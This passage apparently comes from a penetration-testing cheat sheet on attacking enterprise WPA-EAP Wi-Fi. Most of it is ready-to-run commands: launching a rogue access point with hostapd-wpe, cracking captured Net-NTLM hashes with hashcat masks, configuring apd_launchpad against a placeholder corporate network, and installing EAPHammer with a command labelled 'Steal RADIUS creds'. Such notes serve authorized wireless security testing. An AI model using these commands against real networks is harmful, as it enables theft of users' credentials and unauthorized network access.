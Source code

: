 3\. Run fake AP with RADIUS server

```
$ sudo airmon-ng check kill
$ sudo /usr/sbin/hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

4\. Crack Net-NTLM hashes (mask example)

```
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u?s ?1?1?1?1?1?1?1?1
```


#### apd_launchpad

* [https://github.com/WJDigby/apd_launchpad](https://github.com/WJDigby/apd_launchpad)
* [https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html](https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html)

```
$ python ~/tools/apd_launchpad/apd_launchpad.py -t radius -s MegaCorp -i wlan1 -ch 1 -cn '*.megacorp.local' -o MegaCorp
$ vi radius/radius.conf
...
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
```


#### EAPHammer

* [https://github.com/s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer)

Setup:

```
$ git clone https://github.com/s0lst1c3/eaphammer.git ~/tools/eaphammer && cd ~/tools/eaphammer
$ sudo ./kali-setup
$ sudo python3 -m pip install flask-cors flask-socketio --upgrade
```

Create a certificate:

```
$ sudo ./eaphammer --cert-wizard
```

Steal RADIUS creds:

```
$ sudo ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 1 --interface wlan1 --auth wpa-eap --creds
```




## Misc
